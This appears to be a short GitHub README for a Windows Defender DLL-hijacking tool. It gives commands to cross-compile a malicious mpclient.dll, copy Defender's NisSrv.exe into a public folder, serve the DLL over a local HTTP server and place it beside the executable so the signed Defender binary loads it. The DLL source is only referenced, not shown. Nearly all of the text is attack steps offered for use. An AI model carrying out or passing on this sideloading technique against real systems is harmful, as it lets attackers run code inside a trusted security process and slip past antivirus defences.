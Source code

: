 # Windows-Defender-DLL-Hijacking

## Linux Compilation

Commands:

sudo apt-get update && sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64

x86_64-w64-mingw32-g++ --shared -o mpclient.dll mpclient.cpp

## Attack

copy "%ProgramFiles%\Windows Defender\NisSrv.exe" "C:\Users\Public\DLL Hijacking"

python3 -m http.server 80

Download Dll in folder with Nissrv

## Special thanks

Los3rPWN for Proof of Concept
